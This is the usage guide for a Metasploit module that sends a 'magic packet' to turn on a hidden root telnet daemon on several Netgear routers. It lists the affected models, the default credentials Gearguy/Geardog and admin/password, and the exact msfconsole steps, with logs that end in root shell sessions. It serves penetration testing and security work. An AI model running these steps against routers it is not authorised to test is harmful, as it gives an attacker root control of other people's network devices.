 ## Introduction

Several models of Netgear devices have a hidden telnet daemon that can be
enabled for remote LAN users by sending a 'magic packet' to the device. 
Upon successful connect, a root shell should be presented to the user.

There are many devices which contain this daemon, for a full list see [OpenWrt](https://wiki.openwrt.org/toh/netgear/telnet.console).

This module has been successfully tested against:

 - AC1450 - unknown older firmware (TCP)
 - AC1450 - latest firmware: V1.0.0.36_10.0.17 (UDP)
 - N300 WNR2000 v3 - firmware: V1.1.2.10 (TCP)

## Setup

A MAC address is required for exploitation.  To determine the MAC address of the device:

1. Ping the device to force an ARP lookup: ```ping -c 1 [IP]```
2. Get the MAC: ```arp -an [IP]```

If you are the root user, you can skip this step. ARP will be leveraged
to find the MAC address.

## Targets

**0 (Automatic)**

Detect if a device listens on TCP or UDP.

**1 (TCP)**

Older devices usually listen on TCP.

**2 (UDP)**

Newer devices usually listen on UDP.

## Options

**MAC**

Set this to the MAC address of the device. You can use `ping` and `arp`
to find it.

You can leave this blank if you're root.

**USERNAME**

If this is an older device, it'll take the value of `super_username` in
`nvram`, which is usually unchanged from `Gearguy`.

If this is a newer device, it'll take the web UI username, which is
usually unchanged from `admin`.

You can leave this blank to use the default username.

**PASSWORD**

If this is an older device, it'll take the value of `super_passwd` in
`nvram`, which is usually unchanged from `Geardog`.

If this is a newer device, it'll take the web UI password, which is
usually unchanged from `password`.

You can leave this blank to use the default password.

## Exploitation 

1. Make sure you have a vulnerable device
2. Start metasploit
3. ```use exploit/linux/telnet/netgear_telnetenable```
4. ```set rhost [IP]```
5. ```set mac [MAC Address]``` if not running as root
6. ```exploit```
7. Enjoy a root shell!

## Usage

### AC1450

As a normal user:

```
msf > use exploit/linux/telnet/netgear_telnetenable
msf exploit(linux/telnet/netgear_telnetenable) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf exploit(linux/telnet/netgear_telnetenable) > ping -c 1 192.168.1.1
[*] exec: ping -c 1 192.168.1.1

PING 192.168.1.1 (192.168.1.1) 56(84) bytes of data.
64 bytes from 192.168.1.1: icmp_seq=1 ttl=64 time=2.04 ms

--- 192.168.1.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 2.041/2.041/2.041/0.000 ms
msf exploit(linux/telnet/netgear_telnetenable) > arp -an 192.168.1.1
[*] exec: arp -an 192.168.1.1

? (192.168.1.1) at [redacted] [ether] on wlan0
msf exploit(linux/telnet/netgear_telnetenable) > set mac [redacted]
mac => [redacted]
msf exploit(linux/telnet/netgear_telnetenable) > run

[+] 192.168.1.1:23 - Detected telnetenabled on UDP
[+] 192.168.1.1:23 - Using creds admin:password
[*] 192.168.1.1:23 - Generating magic packet
[*] 192.168.1.1:23 - Connecting to telnetenabled via UDP
[*] 192.168.1.1:23 - Sending magic packet
[*] 192.168.1.1:23 - Disconnecting from telnetenabled
[*] 192.168.1.1:23 - Waiting for telnetd
[*] 192.168.1.1:23 - Connecting to telnetd
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.3:34833 -> 192.168.1.1:23) at 2018-03-02 19:26:25 -0600

id
id
uid=0 gid=0(root)
# uname -a
uname -a
Linux (none) 2.6.36.4brcmarm+ #16 SMP PREEMPT Wed Mar 22 15:02:38 CST 2017 armv7l unknown
#
```

As root:

```
msf > use exploit/linux/telnet/netgear_telnetenable
msf exploit(linux/telnet/netgear_telnetenable) > set rhost 192.168.1.1
rhost => 192.168.1.1
rmsf exploit(linux/telnet/netgear_telnetenable) > run

[+] 192.168.1.1:23 - Detected telnetenabled on UDP
[*] 192.168.1.1:23 - Attempting to discover MAC address via ARP
[+] 192.168.1.1:23 - Found MAC address [redacted]
[+] 192.168.1.1:23 - Using creds admin:password
[*] 192.168.1.1:23 - Generating magic packet
[*] 192.168.1.1:23 - Connecting to telnetenabled via UDP
[*] 192.168.1.1:23 - Sending magic packet
[*] 192.168.1.1:23 - Disconnecting from telnetenabled
[*] 192.168.1.1:23 - Waiting for telnetd
[*] 192.168.1.1:23 - Connecting to telnetd
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.2:37771 -> 192.168.1.1:23) at 2018-03-02 19:33:42 -0600

id
id
uid=0 gid=0(root)
# uname -a
uname -a
Linux (none) 2.6.36.4brcmarm+ #16 SMP PREEMPT Wed Mar 22 15:02:38 CST 2017 armv7l unknown
#
```
